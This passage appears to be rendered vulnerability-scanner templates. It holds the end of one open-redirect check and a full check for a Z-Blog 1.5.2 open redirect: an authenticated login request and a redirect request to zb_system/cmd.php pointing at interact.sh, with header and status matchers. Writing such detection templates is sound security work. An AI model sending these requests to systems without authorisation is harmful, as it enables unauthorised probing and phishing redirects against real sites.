 ### URL

- {{BaseURL}}/find_v2/\_click?\_t_id=&\_t_q=&\_t_hit.id=&\_t_redirect=https://interact.sh

### Matchers

**Type - word**

- part - header
- words
  1. Location: https://interact.sh

**Type - status**

- status
  1. 301

---

# Z-Blog \<=1.5.2 - Open Redirect

## Description

- Z-Blog 1.5.2 and earlier contains an open redirect vulnerability via the redirect parameter in zb_system/cmd.php. An attacker can redirect a user to a malicious site and possibly obtain sensitive information, modify data, and/or execute unauthorized operations.
- severity - medium
- tags - cve,cve2020,redirect,zblogphp,authenticated

## Requests

### Step - 1

```
POST /zb_system/cmd.php?act=verify HTTP/1.1
Host: {{Hostname}}
Content-Length: 81
Content-Type: application/x-www-form-urlencoded
Connection: close

btnPost=Log+In&username={{username}}&password={{md5("{{password}}")}}&savedate=0

```

### Step - 2

```
GET /zb_system/cmd.php?atc=login&redirect=http://www.interact.sh HTTP/2
Host: {{Hostname}}

```
